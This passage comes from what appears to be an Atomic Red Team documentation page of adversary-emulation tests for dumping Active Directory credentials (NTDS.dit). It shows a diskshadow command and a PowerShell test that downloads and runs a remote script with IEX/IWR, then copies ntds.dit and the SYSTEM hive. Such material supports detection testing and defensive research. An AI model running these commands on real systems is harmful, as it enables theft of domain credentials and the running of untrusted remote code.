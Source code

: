 
**auto_generated_guid:** b385996c-0e7d-4e27-95a4-aca046b119a7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| filename | Location of the script | Path | PathToAtomicsFolder&#92;T1003.003&#92;src&#92;diskshadow.txt|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
mkdir c:\exfil
diskshadow.exe /s #{filename}
```

<br/>


## Atomic Test #10 - Copy NTDS.dit in low-level NTFS acquisition via MFT parsing
This test is intended to be run on a domain Controller.
UnderlayCopy is a PowerShell utility for low-level NTFS acquisition and dumping protected, locked system artifacts (for example: SAM, SYSTEM, NTDS.dit, registry hives, and other files that are normally inaccessible while Windows is running).

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| extract_path | Path for extracted NTDS.dit | path | C:&#92;Windows&#92;Temp|



#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/kfallahi/UnderlayCopy/refs/heads/main/UnderlayCopy.ps1' -UseBasicParsing)
Underlay-Copy -Mode MFT -SourceFile C:\Windows\NTDS\ntds.dit -DestinationFile #{extract_path}\ntds.dit
Underlay-Copy -Mode MFT -SourceFile C:\Windows\System32\config\SYSTEM -DestinationFile #{extract_path}\SYSTEM_HIVE
```


#### Cleanup Commands:
```powershell
remove-item "#{extract_path}\ntds.dit" -force -erroraction silentlycontinue
remove-item "#{extract_path}\SYSTEM_HIVE" -force -erroraction silentlycontinue
```

